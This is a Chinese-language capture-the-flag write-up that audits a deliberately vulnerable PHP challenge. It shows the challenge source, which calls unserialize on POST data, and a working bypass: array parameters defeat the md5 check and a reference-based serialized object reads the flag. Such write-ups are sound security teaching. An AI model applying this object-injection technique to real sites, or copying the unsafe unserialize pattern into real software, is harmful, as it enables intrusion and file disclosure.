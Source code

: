 # BUU CODE REVIEW 1

`考点：代码审计，反序列化`

- 进入页面，开始代码审计

```php
 <?php
/**
 * Created by PhpStorm.
 * User: jinzhao
 * Date: 2019/10/6
 * Time: 8:04 PM
 */

highlight_file(__FILE__);

class BUU {
   public $correct = "";
   public $input = "";

   public function __destruct() { //魔术方法__destruct()，在项目销毁前调用自身
       try {
            //基于微秒计时，返回一个base64加密的当前时间戳，赋值给correct
           $this->correct = base64_encode(uniqid());
            //要求correct和input的值和数据类型均相同
           if($this->correct === $this->input) {
               echo file_get_contents("/flag");
           }
       } catch (Exception $e) {
       }
   }
}

if($_GET['pleaseget'] === '1') {
    if($_POST['pleasepost'] === '2') {
        //要求md51和md52的md5码相同，但值不同
        if(md5($_POST['md51']) == md5($_POST['md52']) && $_POST['md51'] != $_POST['md52']) {
            //反序列化obj
            unserialize($_POST['obj']);
        }
    }
}

```

- 根据代码审计的结果，我们需要传入参数 `pleaseget=1` ， `pleasepost=2` ，使用数组传入 `md51[]=1` 和 `md52[]=2` 来绕过函数 `md5()` ，然后构建一个参数 `obj` ，使 `correct === input` ，这里可以使用引用传值，但考虑到obj会进行一次反序列化，所以需要先对 `obj` 进行序列化

```php
class BUU {
    public $correct = "";
    public $input = "";
}
$buu = new BUU();
$buu->input = &$buu->correct;
echo serialize($buu);
```

- 得到结果为 `O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}`，最终payload为下图

> <img src="../../IMG2/Screenshot 2024-05-12 191036.png">